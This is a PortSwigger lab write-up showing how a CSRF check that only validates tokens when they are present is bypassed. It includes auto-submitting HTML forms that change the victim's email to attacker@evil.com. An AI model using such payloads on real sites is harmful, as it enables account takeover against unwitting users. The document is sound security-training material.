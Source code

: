 # CSRF where token validation depends on token being present | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present), you'll learn: CSRF where token validation depends on token being present! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005004.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005026.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005030.png)

**In the previous labs, we found that the email change functionality is vulnerable to CSRF.**

**Let's inspect the form!**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="NyEhcWXR4C1lk7nt89xf9bXUnIqycDQL">
    <button class='button' type='submit'> Update email </button>
</form>
```

**As you can see, there is a CSRF token!**

**Now, we can try to exploit CSRF via the `exploit server`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005149.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005201.png)

**To do so, I'll try to craft a CSRF form including an invalid CSRF token that performs CSRF attack:**
```html
<html>
	<head>
		<title>CSRF-3</title>
	</head>
	<body>
		<form action="https://0a7b000103e23b4fc097dbfe00370008.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		    <input type="hidden" name="csrf" value="LQDcyqInUXb9fx98tn7kl1C4RXWchEyN">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005541.png)

**We can test it locally via the `View exploit` button:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005609.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005620.png)

As expected, it outputs `Invalid CSRF token`.

**To bypass the CSRF token, we try to not include the CSRF token:**
```html
<html>
	<head>
		<title>CSRF-3</title>
	</head>
	<body>
		<form action="https://0a7b000103e23b4fc097dbfe00370008.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005743.png)

**Then test it locally:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005800.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005811.png)

It works!!

**Now, let's change other users' email!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005843.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-3/images/Pasted%20image%2020221215005852.png)

We did it!

# What we've learned:

1. CSRF where token validation depends on token being present